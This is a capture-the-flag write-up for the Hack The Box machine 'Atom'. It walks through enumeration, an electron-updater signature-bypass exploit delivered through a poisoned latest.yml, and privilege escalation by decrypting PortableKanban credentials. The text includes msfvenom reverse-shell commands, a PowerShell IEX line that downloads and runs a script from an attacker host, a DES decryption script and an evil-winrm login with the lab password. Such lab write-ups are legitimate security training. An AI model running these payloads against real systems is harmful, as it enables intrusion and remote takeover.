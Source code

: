 ```yaml
---
title: Hackthebox - Atom
date: 2021-06-29 00:00:00 +0530
categories: [hackthebox, windows]
tags: [electron updater, Kanban credentials]     # TAG names should always be lowercase
image: /assets/img/posts/atom/atom_banner.png
---
```



![](/assets/img/posts/atom/atom_banner.png)



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.237 atom.htb

**nmap scan:**
```bash
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
135/tcp  open  msrpc        Microsoft Windows RPC
443/tcp  open  ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6379/tcp open  redis        Redis key-value store
Service Info: Host: ATOM; OS: Windows; CPE: cpe:/o:microsoft:windows
```

* Windows version: `OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)`
* Nothing in ssl certificate.
* Radis require authAuthentication, [hacktricks](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)

      ❯ redis-cli -h 10.10.10.237
      10.10.10.237:6379> info
      NOAUTH Authentication required.

* SMB allowed access without password

  ![](/assets/img/posts/atom/smb-share.png)

  Found a pdf file and some empty directories.
* There a file available for download on http server `/releases/heed_setup_v1.0.0.zip`

  ![](/assets/img/posts/atom/web-page.png)

* zip archive contains a windows executable.

      ❯ file heedv1-Setup-1.0.0.exe
      heedv1-Setup-1.0.0.exe: PE32 executable (GUI) Intel 80386, for MS Windows, Nullsoft Installer self-extracting archive

* pdf file contains some information about this exe file.

  ![](/assets/img/posts/atom/heed-pdf-doc.png)

pdf also talking about update.

![](/assets/img/posts/atom/pdf-update-note.png)

And if we reverse the executable with `7z` in linux and find the `resources` folder under `$PLUGINSDIR`, which contains the  electron app source codes in `app.asar` file. We can decompress `app.asar` file with [`asar`](https://github.com/electron/asar) tool to get the application source javascript files.
```bash
❯ npx asar extract app.asar dest-dir
```

![](/assets/img/posts/atom/app-packages.png)

This application using vulnerable version of `electron-updater` package.

* Vulnerability found from [snyk VulnerabilityDB](https://snyk.io/vuln/SNYK-JS-ELECTRONUPDATER-561421)
* **electron-builder's Electron-Updater PoC blog from [blog.doyensec.com](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)**

# Foothold

## Electron Updater RCE

**Exploit surface:** The signature verification check performed by electron-builder is simply based on a string **comparison between the installed binary’s publisherName and the certificate’s Common Name attribute of the update binary**. During a software update, the application will request a file named **`latest.yml`** from the **update server**, which contains the definition of the new release - including the binary filename and hashes.

* our application is using smb share's client folder for new `latest.yml` and we have access to these "client" folders.

**Other part:** an attacker could **bypass the entire signature verification** by triggering a parse error in the script. This can be easily achieved by **using a filename containing a single quote (`'`) and then by recalculating the file hash to match the attacker-provided binary** (using `shasum -a 512 maliciousupdate.exe | cut -d " " -f1 | xxd -r -p | base64`).

* Found update process form  [electron docs](https://www.electron.build/auto-update#staged-rollouts)

**Exploit**

**Generate reverse shell with msfvenom**
```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.71 LPORT=4141 -f exe -o "rev'Shell.exe"
```

**generate sha512 bash encoded hash**
```bash
❯ sha512sum rev\'Shell.exe | cut -d " " -f1 | xxd -r -p | base64 -w 0
77b46759lH58s81l3tMaetP541XEe+XJ2V+IEPOC5dF27MjxROsm/JJMVR7tt2CN/hmVikE5d8Wa9VuxMAnFNw==
```

**configure latest.yml**
```yml
version: 1.0.1
path: http://10.10.15.71/rev'Shell.exe
sha512: 77b46759lH58s81l3tMaetP541XEe+XJ2V+IEPOC5dF27MjxROsm/JJMVR7tt2CN/hmVikE5d8Wa9VuxMAnFNw==
```

**upload `latest.yml` in the smb share's "client" folder.**

![](/assets/img/posts/atom/rev-shell.png)


<details>
<summary><strong>msf shell</strong></summary>

Generate Reverse shell with msfvenom
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.71 LPORT=4141 -f psh -o msf_shell.ps1
```

Execute with powershell IEX
```bash
IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.71/msf_shell.ps1')
```

</details>
</br>

# Privesc

## Kanban credentials encryption flaw

* Only one user on the box "jason"

There is radis server running, get in the nmap scan, so finding radis server creds: `C:\Program Files\Redis\redis.windows-service.conf`

![](/assets/img/posts/atom/radis-pass.png)
<!--kidvscat_yes_kidvscat-->

Found "Administrator" Encrypted Password from redis database, But don't find the encryption type.

![](/assets/img/posts/atom/redis-dump.png)
<!--Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi-->

Running winpeas found user "jason" password but it is not working.

![](/assets/img/posts/atom/winpeas-win-creds.png)

Enumerating user "jason" home folder find [PortableKanban](https://www.atlassian.com/agile/kanban) in `C:\Users\jason\Downloads\PortableKanban`.

from kanban config file found that radis is using by kanban.

![](/assets/img/posts/atom/kanban-config.png)

that looking that encrypted password from config, they both looks same.

PortableKanBan stores credentials in an encrypted format and also found a script for decrypt this from [ExploitDB](https://www.exploit-db.com/exploits/49409).

```py
import base64
from des import * #python3 -m pip install des

def decode(hash):
	hash = base64.b64decode(hash.encode('utf-8'))
	key = DesKey(b"7ly6UznJ")
	return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')

print(decode("Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi"))
```

Run the script give decrypted password
<!--
jason:kidvscat_electron_@123
administrator:kidvscat_admin_@123
-->

Checking if that password is working
```bash
$username = "domain\Administrator"
$password = "kidvscat_admin_@123" | ConvertTo-SecureString -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential -ArgumentList $username,$password
$s = New-PSSession -Credential $Cred
Invoke-Command -Session $s -Scriptblock {whoami}
```

![](/assets/img/posts/atom/admin-pass-check.png)

We can get the Administrator shell with `evil-winrm`

```bash
❯ evil-winrm -i 10.10.10.237 -u administrator -p 'kidvscat_admin_@123'
```

![](/assets/img/posts/atom/atom-rooted.png)


